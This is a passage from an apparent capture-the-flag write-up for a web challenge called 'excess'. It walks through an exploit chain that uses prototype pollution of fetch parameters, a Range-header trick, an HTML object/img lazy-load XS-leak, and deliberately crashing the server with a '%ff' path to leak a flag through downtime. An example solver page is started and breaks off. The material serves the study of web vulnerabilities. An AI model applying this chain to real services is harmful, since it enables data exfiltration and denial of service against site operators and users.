 But `AuthorAlreadyExistsError` has no `catch` clause for itself. Instead it will be proceed as `std::exception` default clause. Note that it doesn't set `res.status`, so it would be 200_OK.

#### 2. unhandled exception

What if another exception occured during handling the exception? Then function `Api::HandleException` will throw this exception and server will crash. Note that there is no check for JSON exceptions.

```cpp
nlohmann::json result = {
    {"error", error},
};

res.set_content(result.dump(), JsonContentType);
```

So if JSON will throw the exception the server will crash.

### Exploitation

1. Use prototype pollution to pollute `headers` and `method` fields of object. It leads to control `fetch()` parameters object and allows us to perform any request.

2. Use `Range: bytes=17-` header in order to download a part of returned JSON. Basically if the server set `res.status` it's not possible, but on `AuthorAlreadyExistsError` exception `res.status` is not set and range header will be applied

3. Use XS-leak to exfiltrate flag. CSP blocks inline javascript, so we can't use `<script>`, but we still can insert HTML. Use object with lazy loading fallback.

```html
<object data='URL'>
    <img src='FALLBACK_URL' loading='lazy'>
</object>
```

If call to `URL` returns error then `FALLBACK_URL` will be called. If `URL` returns 200 OK there won't be any call to `FALLBACK_URL`.

4. Throw unhandled exception if prefix is not correct. Set `URL` to `/messages?content=<prefix>` and `FALLBACK_URL` to `/message/%ff`. JSON will throw an exception during `\xff` serialization, it leads to server downtime.

5. Track server downtime from internet. We know public URL so we can easily perform many requests and check is the server down.

So the final chain:

```
1. pollute fetch headers
2. conflict on /register -> html inserted on the page
3. call to /messages?content=<prefix> with fallback to /message/%ff
4. check if the server is crashed
```

Example solver: 

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8"/>
        <title>exploit</title>
    </head>
    <body>
        <script>

const EXCESS_URL = 'http://excess.example:12345/';
const INTERNAL_EXCESS_URL = 'http://localhost:31337';

const REPORT_URL = 'http://ngrok.example:12345/report';
```